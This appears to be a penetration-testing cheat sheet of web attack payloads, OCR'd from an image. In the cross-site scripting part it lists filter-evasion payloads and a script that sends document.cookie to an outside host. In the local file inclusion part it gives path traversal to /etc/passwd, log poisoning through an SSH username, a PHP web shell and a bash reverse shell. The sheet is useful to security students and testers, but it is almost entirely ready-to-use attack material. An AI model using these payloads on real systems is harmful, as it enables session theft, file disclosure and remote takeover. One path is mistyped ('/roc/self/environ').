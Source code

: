 ------------------------------------------------------------------cross site scripting-----------------------------------------------------------------------
-	<ScRipT>alert("XSS");</ScRipT>
-	<scr<script>ipt>alert(1)</script>
-	<svg/onload=alert(1)>
-	<a href=javascript:confirm()>click here
-	<img src=`xx:xx`onerror=alert(1)>
-	<img src=//x55.is OnError=import(src)>
-	</script><script >alert(document.cookie)</script>
-	<script>new  Image().src="http://10.0.2.10:4444/bogus.php?output="+escape(document.cookie);</script>

To automate the process, use the following tools
-	xsstrike
-	xsshunter
-	BeEF
-	JShell
-------------------------------------------------------------------------------------------------------------------------------------------------------------

-----------------------------------------------------------------Loca File Inclusion-------------------------------------------------------------------------
-	../../../../../../etc/passwd%00.jpg  --> Null Byte will ignore the extension
-	php://filter/convert.base64-encode/resource=
- /roc/self/environ || /var/log/auth.log [ssh log file] || /var/log/apache2/access.log [web server log file]  --> You can poison any of these log files to get a reverse shell
- Ssh “<?php passthru(base64_decode(‘base64PAYLOAD==’))?>”@10.0.2.13 --> poison the auth.log file
- ./ngrok http 9000  && python -m SimpleHTTPServer --> these two are required in order to execute a php file from an external server
- <?php echo system($_GET['cmd']); ?>
- ../../../../../../../../../var/log/apache2/access.log
- bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
- ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349 --> searching for LFI

-------------------------------------------------------------------------------------------------------------------------------------------------------------

